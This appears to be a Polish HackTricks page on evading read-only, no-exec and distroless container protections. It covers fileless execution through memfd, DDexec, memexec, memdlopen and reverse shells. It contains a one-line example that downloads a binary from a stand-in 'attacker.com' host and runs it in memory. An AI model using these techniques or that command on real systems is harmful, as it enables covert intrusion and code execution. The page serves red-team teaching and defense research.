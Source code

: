 # Obejście ochrony FS: tylko do odczytu / bez wykonania / Distroless

{{#include ../../../banners/hacktricks-training.md}}

## Filmy

W poniższych filmach znajdziesz techniki wspomniane na tej stronie wyjaśnione bardziej szczegółowo:

- [**DEF CON 31 - Eksploracja manipulacji pamięcią Linuxa w celu ukrycia i unikania**](https://www.youtube.com/watch?v=poHirez8jk4)
- [**Ukryte intruzje z DDexec-ng i in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## scenariusz tylko do odczytu / bez wykonania

Coraz częściej spotyka się maszyny linuxowe zamontowane z **ochroną systemu plików tylko do odczytu (ro)**, szczególnie w kontenerach. Dzieje się tak, ponieważ uruchomienie kontenera z systemem plików ro jest tak proste, jak ustawienie **`readOnlyRootFilesystem: true`** w `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Jednak nawet jeśli system plików jest zamontowany jako ro, **`/dev/shm`** nadal będzie zapisywalny, więc to fałsz, że nie możemy nic zapisać na dysku. Jednak ten folder będzie **zamontowany z ochroną bez wykonania**, więc jeśli pobierzesz tutaj binarny plik, **nie będziesz mógł go wykonać**.

> [!WARNING]
> Z perspektywy red teamu, to **utrudnia pobieranie i wykonywanie** binarnych plików, które nie są już w systemie (jak backdoory czy enumeratory takie jak `kubectl`).

## Najłatwiejsze obejście: Skrypty

Zauważ, że wspomniałem o binarnych plikach, możesz **wykonać dowolny skrypt**, o ile interpreter jest w maszynie, jak **skrypt powłoki**, jeśli `sh` jest obecny, lub **skrypt** **python**, jeśli `python` jest zainstalowany.

Jednak to nie wystarczy, aby wykonać swój binarny backdoor lub inne narzędzia binarne, które możesz potrzebować uruchomić.

## Obejścia pamięci

Jeśli chcesz wykonać binarny plik, ale system plików na to nie pozwala, najlepszym sposobem jest **wykonanie go z pamięci**, ponieważ **ochrony nie mają tam zastosowania**.

### Obejście FD + syscall exec

Jeśli masz w maszynie potężne silniki skryptowe, takie jak **Python**, **Perl** lub **Ruby**, możesz pobrać binarny plik do wykonania z pamięci, przechować go w deskryptorze pliku pamięci (`create_memfd` syscall), który nie będzie chroniony przez te zabezpieczenia, a następnie wywołać **`exec` syscall**, wskazując **fd jako plik do wykonania**.

W tym celu możesz łatwo użyć projektu [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Możesz przekazać mu binarny plik, a on wygeneruje skrypt w wskazanym języku z **binarnym plikiem skompresowanym i zakodowanym w b64** z instrukcjami do **dekodowania i dekompresji** w **fd** utworzonym przez wywołanie syscall `create_memfd` oraz wywołanie syscall **exec**, aby go uruchomić.

> [!WARNING]
> To nie działa w innych językach skryptowych, takich jak PHP czy Node, ponieważ nie mają one żadnego **domyślnego sposobu na wywoływanie surowych syscalli** z poziomu skryptu, więc nie można wywołać `create_memfd`, aby utworzyć **fd pamięci** do przechowywania binarnego pliku.
>
> Ponadto, utworzenie **zwykłego fd** z plikiem w `/dev/shm` nie zadziała, ponieważ nie będziesz mógł go uruchomić, ponieważ zastosuje się **ochrona bez wykonania**.

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) to technika, która pozwala na **modyfikację pamięci własnego procesu** poprzez nadpisanie jego **`/proc/self/mem`**.

W ten sposób, **kontrolując kod assemblera**, który jest wykonywany przez proces, możesz napisać **shellcode** i "mutować" proces, aby **wykonać dowolny arbitralny kod**.

> [!TIP]
> **DDexec / EverythingExec** pozwoli Ci załadować i **wykonać** własny **shellcode** lub **dowolny binarny plik** z **pamięci**.
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Aby uzyskać więcej informacji na temat tej techniki, sprawdź Github lub:

{{#ref}}
ddexec.md
{{#endref}}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) jest naturalnym krokiem w następstwie DDexec. To **demonizowany shellcode DDexec**, więc za każdym razem, gdy chcesz **uruchomić inny binarny**, nie musisz ponownie uruchamiać DDexec, możesz po prostu uruchomić shellcode memexec za pomocą techniki DDexec, a następnie **komunikować się z tym demonem, aby przekazać nowe binarne do załadowania i uruchomienia**.

Możesz znaleźć przykład, jak użyć **memexec do wykonywania binarnych z PHP reverse shell** w [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Z podobnym celem do DDexec, technika [**memdlopen**](https://github.com/arget13/memdlopen) umożliwia **łatwiejszy sposób ładowania binarnych** w pamięci, aby później je wykonać. Może nawet pozwolić na ładowanie binarnych z zależnościami.

## Distroless Bypass

### Czym jest distroless

Kontenery distroless zawierają tylko **najmniejsze niezbędne komponenty do uruchomienia konkretnej aplikacji lub usługi**, takie jak biblioteki i zależności uruchomieniowe, ale wykluczają większe komponenty, takie jak menedżer pakietów, powłoka czy narzędzia systemowe.

Celem kontenerów distroless jest **zmniejszenie powierzchni ataku kontenerów poprzez eliminację niepotrzebnych komponentów** i minimalizację liczby podatności, które mogą być wykorzystane.

### Reverse Shell

W kontenerze distroless możesz **nawet nie znaleźć `sh` lub `bash`**, aby uzyskać zwykłą powłokę. Nie znajdziesz również binarnych takich jak `ls`, `whoami`, `id`... wszystko, co zwykle uruchamiasz w systemie.

> [!WARNING]
> Dlatego **nie** będziesz w stanie uzyskać **reverse shell** ani **enumerować** systemu tak, jak zwykle.

Jednak jeśli skompromitowany kontener uruchamia na przykład aplikację flask, to python jest zainstalowany, a zatem możesz uzyskać **Python reverse shell**. Jeśli uruchamia node, możesz uzyskać Node rev shell, i to samo z większością **języków skryptowych**.

> [!TIP]
> Używając języka skryptowego, możesz **enumerować system** korzystając z możliwości języka.

Jeśli nie ma **ochron `read-only/no-exec`**, możesz wykorzystać swój reverse shell do **zapisywania w systemie plików swoich binarnych** i **wykonywania** ich.

> [!TIP]
> Jednak w tego rodzaju kontenerach te zabezpieczenia zazwyczaj będą istnieć, ale możesz użyć **wcześniejszych technik wykonania w pamięci, aby je obejść**.

Możesz znaleźć **przykłady** na temat **wykorzystania niektórych podatności RCE** do uzyskania **reverse shells** języków skryptowych i wykonywania binarnych z pamięci w [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

{{#include ../../../banners/hacktricks-training.md}}
